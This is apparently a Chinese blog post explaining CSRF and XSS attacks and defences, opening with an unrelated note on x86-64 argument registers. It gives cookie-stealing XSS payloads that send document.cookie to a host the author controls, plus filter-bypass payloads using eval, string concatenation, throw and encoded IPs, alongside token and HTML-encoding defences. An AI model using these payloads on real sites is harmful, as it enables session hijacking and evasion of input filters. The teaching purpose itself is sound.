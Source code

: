 ```yaml
---
layout:     post
title:      CSRF与XSS攻击与防御
subtitle:   CSRF与XSS攻击与防御
date:       2023-04-15
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - web安全
---
```


# 64位汇编参数传递
当参数少于7个时，参数从左到右放入rdi,rsi,rdx,rcx,r8,r9
当参数为七个一样时，后面的依次从右至左放入栈中

# CSRF攻击与防御
cross-site request 伪造
1.客户端通过账户密码登录访问网站A
2.网站A验证客户端的账号密码，成功则生成一个sessionID,并返回给客户端存储在浏览器中
3.该客户端tab一个新页面访问了网站B
4.网站B自动触发要求该客户端访问网站A（即在网站B中有链接指向网站A）
5.客户端通过网站B中的连接访问网站A（此时携带有合法的sessionID进行访问网站A的）
6.此时网站A只需检验sessionID是否合法，合法则执行相应的操作

CSRF利用了系统对页面浏览器的信任，XSS则利用了用户对特定网站的信任


CSRF防御方法：
服务端防御：
1.重要数据交互采用POST进行接收
2.使用验证码作为一种辅助手段，只要是涉及到数据交互就先进行验证码验证
3.验证HTTP Referer字段，该字段记录了此次HTTP请求的来源地址
4.为每个表单添加令牌token并验证（可以使用cookie或者session进行构造保护好客户端的cookie)

CSRF攻击能成功在于攻击者可以伪造用户的请求，该请求中所有的用户验证信息都存在于Cookie中抵抗CSRF攻击的关键在于：在请求中放入攻击者所不能伪造的信息，并且该信息不存在于cookie中
我们可以为每一个表单生成一个随机数密钥，并在服务器端建立一个拦截器来验证这个token,如果请求中没有token或者token内容不正确，则认为可能是CSRF攻击而拒绝该请求

该方法套路：1.用户访问某个表单页面
2.服务器生成一个Token，放在用户的Session中
3.在页面表单附带上Token参数，攻击者不知道token，所以不能伪造表单
4.用户提交请求后，服务端验证表单中的Token是否与用户Session中的Token一致，一致则为合法请求

如果用户访问了病毒网站，也想带这个cookie去访问的时候，此时，因为病毒网站无法获取第三方cookie的值，所以他也就无法hash这个随机数

# XSS
cross-site script
xss攻击类似于SQL注入攻击，XSS漏洞分为两种，一种是反射型，一种是存储线性
理论上，所有可输入的地方没有对输入数据进行处理的话，都会存在XSS漏洞

举一个例子：我做了一个超链接
```
http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>
```
当TOM点击这个链接的时候（假设它已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com b.com是我搭建的网站

存储型的XSS由于攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人

a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码

```
<script>window.open(www.b.com?param="+document.cookie)</script>
```
保存文章，这时Tom和jack看到了我发布的文章都中招了

#XSS防御
1.完善的过滤体系：只允许输入合法的值，其他值一律过滤掉
2.Html encode 
对标签进行转换
< 变成 &lt
> 变成 &gt
& 变成 &amp
" 变成 quot
空格变成 &nbsp
3.进制javascript读取某些敏感cookie
4.输入内容长度限制

那么上述脚本就会变成文本显示内容

## 过滤空格 
用/代替空格

## 过滤关键字 
大小写绕过
双写关键字
字符拼接利用eval
```
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
```
利用top
```
<script>top["al"+"ert"](`xss`);</script>
```

## 编码绕过 
unicode编码绕过

## 过滤双引号 单引号
1.我们可以使用反引号代替单双引号
2.使用unicode编码绕过

## 过滤括号
使用throw绕过
;throw'=alert\x281\x29'

## 过滤url地址
使用url编码
使用IP，十进制IP
八进制IP
16进制IP
html标签中可用//代替http://
使用中文逗号代替英文逗号